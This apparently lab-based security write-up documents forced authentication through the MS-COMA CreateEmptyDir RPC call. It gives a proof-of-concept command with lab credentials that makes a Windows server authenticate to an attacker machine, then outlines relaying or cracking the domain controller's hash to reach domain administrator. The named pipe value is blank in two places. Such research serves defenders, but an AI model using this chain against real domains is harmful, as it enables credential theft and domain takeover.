 # MS-COMA - Remote call to CreateEmptyDir (opnum 4)

## Summary

+ **Protocol**: [[MS-COMA]: Component Object Model Plus (COM+) Remote Administration Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-coma/c5b1ef02-e8f6-4195-9efe-9667928d1bdd)

+ **Protocol UUID**: 182c40fa-32e4-11d0-818b-00a0c9231c29

+ **Protocol version**: 0.0

+ **SMB Named pipe**: ``

+ **Function name**: [`CreateEmptyDir`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-coma/798a41fc-b88f-420a-8795-4e2ac067beea)

+ **Function operation number**: `4`

+ **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `` and bind to the desired [`MS-COMA`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-coma/c5b1ef02-e8f6-4195-9efe-9667928d1bdd) protocol (with uuid `182c40fa-32e4-11d0-818b-00a0c9231c29` and version `0.0`) in order to perform remote procedure calls to functions in the [`MS-COMA`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-coma/c5b1ef02-e8f6-4195-9efe-9667928d1bdd) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `` This pipe is connected to the protocol [[MS-COMA]: Component Object Model Plus (COM+) Remote Administration Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-coma/c5b1ef02-e8f6-4195-9efe-9667928d1bdd) and allows to call RPC functions of this protocol. We will then call the remote [`CreateEmptyDir`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-coma/798a41fc-b88f-420a-8795-4e2ac067beea) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
CreateEmptyDir('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
HRESULT CreateEmptyDir(
   [in] LPCWSTR pwszPath
 );
```

## References

+ Documentation of protocol [MS-COMA]: Component Object Model Plus (COM+) Remote Administration Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-coma/c5b1ef02-e8f6-4195-9efe-9667928d1bdd

+ Documentation of function `CreateEmptyDir`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-coma/798a41fc-b88f-420a-8795-4e2ac067beea